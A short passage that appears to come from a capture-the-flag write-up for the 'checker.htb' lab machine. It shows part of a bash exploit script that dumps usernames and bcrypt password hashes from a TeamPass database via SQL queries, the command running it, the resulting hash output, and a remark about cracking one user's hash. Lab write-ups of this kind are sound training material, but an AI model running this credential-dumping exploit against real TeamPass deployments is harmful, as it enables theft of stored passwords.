 ```bash

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```

```bash
./explTemaPass.sh http://checker.htb:8080/
```

**Output:**

```
There are 2 users in the system:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

of course i cant decrypt the admin password so we try bob
